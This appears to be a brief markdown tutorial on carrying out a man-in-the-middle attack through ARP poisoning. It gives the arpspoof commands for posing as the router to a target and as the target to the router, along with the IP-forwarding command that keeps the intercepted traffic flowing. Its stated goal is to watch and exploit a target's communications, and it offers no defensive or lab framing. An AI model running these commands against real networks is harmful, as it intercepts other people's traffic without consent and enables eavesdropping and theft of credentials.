 # MITM Attach
### Man in the middle attack

In this attack we use **ARP poisoning** attack to redirect the packets from our device

What it will do is
> It will redirect all the traffic/packets for your target device from your pc in this way we can check all the communication between the target the router in this way we can exploit it.

>```bash
>arp -a
>```
>This command will show all the ips asoociated with the mac address

## ARP Spoofing Commands
>1. Tell target you are the network router
>```bash
>arpspoof -i [interface] -t [target ip] [router ip]
>```

>2. Tell network router you are the target
>```bash
>arpspoof -i [interface] -t [router ip] [target ip] 
>```
### once this is done the target will lose it's internet connection 
For request forwarding execute command
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```
